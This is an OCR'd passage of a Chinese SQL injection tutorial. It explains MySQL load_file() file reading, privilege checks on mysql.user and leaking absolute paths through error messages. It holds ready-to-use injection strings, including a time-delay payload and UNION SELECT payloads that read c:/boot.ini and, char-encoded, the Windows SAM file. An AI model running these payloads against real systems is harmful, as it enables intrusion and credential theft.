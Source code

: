 Ms sql server

WAITFOR DELAY '0:0:5'



# 导入导出介绍



1.  **load\_file()导出文件**
    
    Load\_file(file\_name):读取文件并返回该文件的内容作为一个字符串。
    
    使用条件：
    
    A、必须有权限读取并且文件必须完全可读
    
     and (select count(\*) from mysql.user)>0/\* 如果结果返回正常,说明具有读写权限。
    
     and (select count(\*) from mysql.user)>0/\* 返回错误，应该是管理员给数据库帐户降权
    
    　　B、欲读取文件必须在服务器上
    
    　　C、必须指定文件完整的路径
    
    　　D、欲读取文件必须小于 max\_allowed\_packet
    
    如果该文件不存在，或因为上面的任一原因而不能被读出，函数返回空。比较难满足的就是权限，在windows下，如果NTFS设置得当，是不能读取相关的文件的，当遇到只有administrators才能访问的文件，users就别想load\_file出来。
    
    　　在实际的注入中，我们有两个难点需要解决：
    
    　　 　　绝对物理路径
    
    构造有效的畸形语句 （报错爆出绝对路径）
    
    　　在很多PHP程序中，当提交一个错误的Query，如果display\_errors = on，程序就会暴露WEB目录的绝对路径，只要知道路径，那么对于一个可以注入的PHP程序来说，整个服务器的安全将受到严重的威胁。
    
    常用路径：
    
    [http://www.cnblogs.com/lcamry/p/5729087.html](http://www.cnblogs.com/lcamry/p/5729087.html)
    
        示例：Select 1,2,3,4,5,6,7,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))
        
    
        利用hex()将文件内容导出来，尤其是smb文件时可以使用。
        							
    
        -1 union select 1,1,1,load_file(char(99,58,47,98,111,111,116,46,105,110,105)) 
        
    
        Explain："char(99,58,47,98,111,111,116,46,105,110,105)"就是"c:/boot.ini"的ASCII代码
        							
    
        -1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69) 
        
    
        Explain："c:/boot.ini"的16进制是"0x633a2f626f6f742e696e69"
        
    
        -1 union select 1,1,1,load_file(c:\\boot.ini) 
        
    